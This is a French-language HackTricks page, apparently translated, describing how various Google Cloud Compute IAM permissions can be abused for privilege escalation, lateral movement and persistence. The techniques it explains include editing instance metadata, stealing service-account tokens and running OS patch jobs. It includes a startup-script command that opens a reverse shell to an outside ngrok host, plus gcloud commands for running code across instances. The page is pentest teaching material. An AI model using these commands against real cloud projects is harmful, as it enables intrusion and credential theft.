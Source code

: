 # GCP - Élévation de privilèges Compute

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert de l'équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Compute

Pour plus d'informations sur Compute et VPC (réseau) dans GCP, consultez :

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Notez que pour effectuer toutes les attaques d'élévation de privilèges qui nécessitent de modifier les métadonnées de l'instance (comme ajouter de nouveaux utilisateurs et des clés SSH), il est **nécessaire d'avoir des autorisations `actAs` sur le compte de service attaché à l'instance**, même si le compte de service est déjà attaché !
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Avec cette autorisation, vous pouvez **modifier** les informations de **métadonnées** d'une **instance** et changer les **clés autorisées d'un utilisateur**, ou **créer** un **nouvel utilisateur avec des permissions sudo**. Par conséquent, vous pourrez exécuter une connexion SSH sur n'importe quelle instance VM et voler le compte de service GCP avec lequel l'instance fonctionne.\
Limitations :

* Notez que les comptes de service GCP s'exécutant dans les instances VM ont par défaut une **portée très limitée**
* Vous devrez être **capable de contacter le serveur SSH** pour vous connecter

Pour plus d'informations sur comment exploiter cette autorisation, consultez :

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Vous pourriez également effectuer cette attaque en ajoutant un nouveau script de démarrage et en redémarrant l'instance :
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Cette autorisation donne les **mêmes privilèges que l'autorisation précédente** mais sur des instances spécifiques au lieu de l'ensemble d'un projet. Les **mêmes exploits et limitations que pour la section précédente s'appliquent**.

### `compute.instances.setIamPolicy`

Ce type d'autorisation vous permettra de **vous accorder un rôle avec les autorisations précédentes** et d'escalader les privilèges en les abusant.

### **`compute.instances.osLogin`**

Si **OSLogin est activé sur l'instance**, avec cette autorisation vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous **n'aurez pas de privilèges root** à l'intérieur de l'instance.

### **`compute.instances.osAdminLogin`**

Si **OSLogin est activé sur l'instance**, avec cette autorisation vous pouvez simplement exécuter **`gcloud compute ssh [INSTANCE]`** et vous connecter à l'instance. Vous aurez des **privilèges root** à l'intérieur de l'instance.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Il est possible de **créer une machine virtuelle avec un compte de service attribué et de voler le jeton** du compte de service en accédant aux métadonnées pour escalader les privilèges vers celui-ci.

Le script d'exploitation pour cette méthode peut être trouvé [ici](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Si vous avez les autorisations **`osconfig.patchDeployments.create`** ou **`osconfig.patchJobs.exec`**, vous pouvez créer un [**travail ou déploiement de correctif**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Cela vous permettra de vous déplacer latéralement dans l'environnement et d'exécuter du code sur toutes les instances de calcul dans un projet.

Si vous souhaitez exploiter manuellement cela, vous devrez créer soit un [travail de correctif](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) soit un [déploiement](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) pour un travail de correctif exécuter :

`gcloud compute os-config patch-jobs execute --file=patch.json`

Pour déployer un déploiement de correctif :

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Des outils automatisés tels que [patchy](https://github.com/rek7/patchy) existent pour détecter les autorisations laxistes et se déplacer automatiquement latéralement.

**Vous pouvez également abuser de cela pour la persistance.**

### `compute.machineImages.setIamPolicy`

**Vous accorder des autorisations supplémentaires** pour les images de calcul.

### `compute.snapshots.setIamPolicy`

**Vous accorder des autorisations supplémentaires** pour un instantané de disque.

### `compute.disks.setIamPolicy`

**Vous accorder des autorisations supplémentaires** pour un disque.

### Contourner les étendues d'accès

En suivant ce lien, vous trouverez quelques [**idées pour essayer de contourner les étendues d'accès**](../).

### Élévation de privilèges locale dans une instance de calcul GCP

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Références

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 le **groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
